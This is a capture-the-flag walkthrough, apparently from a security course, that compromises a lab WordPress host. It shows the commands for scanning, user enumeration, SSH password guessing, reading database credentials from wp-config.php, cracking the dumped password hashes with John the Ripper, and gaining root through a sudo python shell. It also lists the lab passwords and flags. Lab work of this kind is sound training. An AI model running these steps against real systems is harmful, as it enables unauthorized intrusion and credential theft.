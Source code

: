 # **Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other methods have been explored. Read Team: Summary of Operation and the PowerPoint presentation to find more methods not specified in this walkthrough.

---

Tools:

- nmap
- wpscan
- google developers tool
- Q terminal
- Kali Linux
- ssh
- Bash Commands
- Mysql
- John the Ripper
- Python Script

---

## **Walkthrough**

1.` nmap -sV 192.168.1.110`

![1](/Images/2/1.png)

2. Enumerate: `wpscan --url http://192.168.1.110/wordpress -eu`. Likewise, the usernames are easy to guess because of the leads on the website.

3. Search with the google developers tool the flag inside the code

4. Go to Services

5. Search: `flag`

![2](/Images/2/2.png)

6. In the terminal: `'ssh michael@192.168.1.110'`

7. Password: `michael` (Method to obtain the password was guessing. It can also be obtained with Hydra)

8. `pwd`

9. `cd ../../`

10. `find  -iname “*flag*” 2>/dev/null`

![3](/Images/2/3.png)

11. `cat /var/www/flag2.txt`

![4](/Images/2/4.png)

12. `Cd /var/www/html/wordpress`

13. `Nano wp-config.php`

![5](/Images/2/5.png)

14. `mysql -u root -p`

15. Password: `R@v3nSecurity`

16. `show databases;`

![6](/Images/2/6.png)

17. `use wordpress;`

![7](/Images/2/7.png)

18. `show tables;`

![8](/Images/2/8.png)

19. `SELECT * FROM wp_users;`

![9](/Images/2/9.png)

20. Right click and copy the part with the hashes

21. In another terminal in the attacker machine create a file and paste the hashes

22. Give the appropriate structure for john the ripper use to crack the hashes

23. nano hashes.txt

![10](/Images/2/10.png)

24. `john hashes.txt –wordlist=’/usr/share/wordlist/rockyou.txt’`

25. `john –show hashes.txt`

![11](/Images/2/11.png)

26. `sudo steven`

27. Password: `pink84`

28. `Sudo -l`

![12](/Images/2/12.png)

29. `sudo python -c 'import pty;pty.spawn("/bin/bash")'`

![13](/Images/2/13.png)

30. `find  -iname “*flag*” 2>/dev/null`

![14](/Images/2/14.png)

31. `cat /root/flag4.txt`

![15](/Images/2/15.png)

32. `grep -r flag3 *`

![16](/Images/2/16.png)

33. `nano /var/lib/mysql/ib_logfile0`

34. `Ctrl w`

35. `flag3`

![17](/Images/2/17.png)

# FLAGS

flag1{b9bbcb33e11b80be759c4e844862482d}

flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

flag3{afc01ab56b50591e7dccf93122770cd2}

flag4{715dea6c055b9fe3337544932f2941ce}
